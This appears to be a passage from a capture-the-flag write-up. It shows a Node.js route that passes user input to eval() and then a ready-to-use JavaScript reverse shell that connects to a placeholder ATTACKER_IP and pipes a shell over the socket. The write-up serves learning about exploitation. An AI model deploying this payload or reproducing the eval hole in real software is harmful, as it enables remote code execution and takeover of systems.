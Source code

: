 ## Root in Docker 

### enumerate app.js

```console
/timeTracker-src$ cat docker-compose.yml
....
....
// http://localhost:8080/time
app.post('/time', function(request, response) {
	
    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
		let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

		connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
			if (error) {
				log(error, "error")
			};

			log(`${username} added ${time} minutes.`, "info")
			response.redirect('/');
		});
	} else {
        response.redirect('/');;	
    }
	
});
....
....
```

> let timeCalc = parseInt(eval(request.body.time)); eval function it executes arbitrary code
{: .prompt-danger}

### the Reverse Shell Malware

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(RPORT, "ATTACKER_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
